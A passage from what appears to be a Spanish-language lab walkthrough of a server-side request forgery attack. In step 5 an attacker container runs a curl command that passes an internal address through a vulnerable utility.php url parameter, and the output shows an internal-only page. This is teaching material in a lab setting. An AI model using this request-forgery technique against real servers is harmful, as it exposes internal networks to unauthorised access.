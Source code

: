 Acción: index.html 

```lua 
Este contenido no deberia de ser visible para el exterior, dado que corresponde a un servicio web de una red interna de la empresa
```


## Paso 5 -

Acción: contenedor atacante (ATTACKER)

```Shell
curl "http://172.17.0.2/utility.php?url=http://10.10.0.3:7878/"
```

Resultado:

```Shell
Este contenido no deberia de ser visible para el exterior, dado que corresponde a un servicio web de una red interna de la empresa
```

Explicación: de esta forma hemos podido explotar un SSRF, de forma que detectando esta vulnerabilidad en la máquina de PRO, hemos podido apuntar a una red interna de su propia máquina, para comunicarnos con una subred y mostrar contenido que no esta expuesto al exterior, solo desde el interior de la máquina

---
